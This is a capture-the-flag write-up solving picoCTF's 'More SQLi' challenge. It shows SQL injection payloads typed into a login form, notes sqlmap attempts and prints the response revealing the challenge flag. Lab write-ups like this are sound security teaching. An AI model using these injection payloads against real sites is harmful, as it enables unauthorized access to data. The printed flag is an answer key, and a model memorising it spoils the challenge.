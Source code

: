 # More SQLi

* Author: Mubarak Mikail
* Location: https://play.picoctf.org/practice/challenge/358
* Tags: Web Exploitation, sql

## Problem 

> Can you find the flag on this website?

This challenge came with a hint that simply read "SQLiLite."

## Solution

I began by starting the instance associated with this room (Figure 1) and a website was booted up. I visited the website with a browser going through Burp Suite's proxy and its homepage was returned to me (Figure 2).

From the title, tags, and hints associated with the challenge, I assumed that this website is vulnerable to SQL Injection. I tried to attack the form by typing ``' OR 1=1--`` in the username field and "dna deniers" in the password field (Figure 3). The following was returned to me:

```
username: ' OR 1=1--
password: dna deniers
SQL query: SELECT id FROM users WHERE password = 'dna deniers' AND username = '' OR 1=1--'
```

I tried again but with swapping the inputs: ``dna deniers`` was typed into the username form and ``' OR 1=1--`` was typed into the password form. I was greeted with some kind of directory (Figure 4). I tried to search for "picoCTF" from this web form, but nothing was returned (Figure 5). 

I figured that I wasn't really getting anywhere with basic SQL injection attacks, so I decided to use ``sqlmap`` to see if I can get anything useful from the database (I also kept a SQLite injection cheat sheet as a reference [1]). I started by logging out of the site and logging back in with the credentials "rockingmra" as a username and "dna deniers" as a password. The following was returned:

```
username: rockingmra
password: dna deniers
SQL query: SELECT id FROM users WHERE password = 'dna deniers' AND username = 'rockingmra'
```

I then saved the POST request into a file called ``sql`` and then instructed ``sqlmap`` to attack the web application with different values for ``--level`` and ``--risk``. This did not work, so I finally tried the following username and password combination:

```
username: dna deniers
password: ' UNION SELECT sqlite_version()--
```

I finally got the flag in Burp Suite (Figure 8): 

```
HTTP/1.1 302 Found
Host: [redacted]
Date: [redacted] GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.18
Expires: [redacted] GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: welcome.php
Content-type: text/html; charset=UTF-8

<pre>username: dna deniers
password: ' UNION SELECT sqlite_version()--
SQL query: SELECT id FROM users WHERE password = '' UNION SELECT sqlite_version()--' AND username = 'dna deniers'
</pre><h1>Logged in!.</h1><p>Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}</p>
<!DOCTYPE html>
<html lang="en">

[... snip ...]
```

The flag is: ``picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}``

## References

1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

